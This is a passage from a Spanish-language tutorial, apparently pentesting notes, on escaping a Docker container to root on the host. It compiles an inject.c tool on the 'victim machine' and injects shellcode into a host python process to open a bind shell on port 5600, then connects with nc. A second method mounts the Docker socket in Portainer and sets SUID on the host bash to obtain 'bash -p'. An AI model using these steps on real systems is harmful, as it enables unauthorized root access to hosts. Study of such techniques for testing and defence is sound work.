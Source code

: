 ```bash
  return 0;

}
```

```bash 
❯ gcc inject.c -o inject            # Después lo compilamos en la maquina victima 
❯ ps -faux | grep python            # Buscamos el PID que le pasaremos al archivo, para este caso es el 14326 ya que siempre cambia 
❯ ./inject 14326

+ Tracing process 14326
+ Waiting for process...
+ Getting Registers
+ Injecting shell code at 0x7f80246aad47
+ Setting instruction pointer to 0x7f80246aad49
+ Run it!
```

Esto significa que te abre el puerto 5600 en la maquina host. 
```bash 
❯ nc 172.17.0.1 5600                 # Nos conectamos al puerto 5600 del contenedor y esta es la direccion del host, por lo tanto seremos root en el host 
❯ script /dev/null -c bash           # Activar la bash 
❯ Ctrl + z
# Le damos el tratamiento a la bash 
```


### Forma 3 

Portainer: Es una herramienta web open-source que permite gestionar contenedores Docker. Permite administrar contenedores de forma remota o local, la infraestructura de soporte y todos los aspectos de las implementaciones de Kubernetes, Docker standalone y Docker Swarm. 

```bash 
❯ docker run -dit -p 8000:8000 -p 9000:9000 --name portainer --restart=always -v /var/run/docker.sock:/var/run/docker.sock -v /docker/portainer/data:/data portainer/portainer-ce               # Nos crearemos un contenedor y descargará la imagen por internet 

# Nos desplegara un entorno gráfico por el puerto 9000
```


[![DB1.png](https://i.postimg.cc/4yrX0s5Z/DB1.png)](https://postimg.cc/H89GcGRP)
[![DB2.png](https://i.postimg.cc/d1fF7wgd/DB2.png)](https://postimg.cc/XG9mmSj7)
[![DB3.png](https://i.postimg.cc/7Y2H2JHL/DB3.png)](https://postimg.cc/2VCNp6Bp)
[![DB4.png](https://i.postimg.cc/Dw32df0P/DB4.png)](https://postimg.cc/0bZR9spz)
[![DB5.png](https://i.postimg.cc/2yBDhgft/DB5.png)](https://postimg.cc/XB3m0HqK)
[![DB6.png](https://i.postimg.cc/252rD4w0/DB6.png)](https://postimg.cc/8FJqdfxv)
[![DB7.png](https://i.postimg.cc/cJs02DQK/DB7.png)](https://postimg.cc/FYnMJVCm)
[![DB8.png](https://i.postimg.cc/4nkT5wfx/DB8.png)](https://postimg.cc/V0RTsq0x)

Esos archivos corresponden a la maquina host real. Y como estamos como root, podemos hacer lo que sea., por lo que le agregamos desde esa consola los permisos SUID a la bash real y al volver al host podemos ejecutar desde ahí el comando 
```bash 
❯ bash -p                # Obtener una bash privilegiada en el host 
```
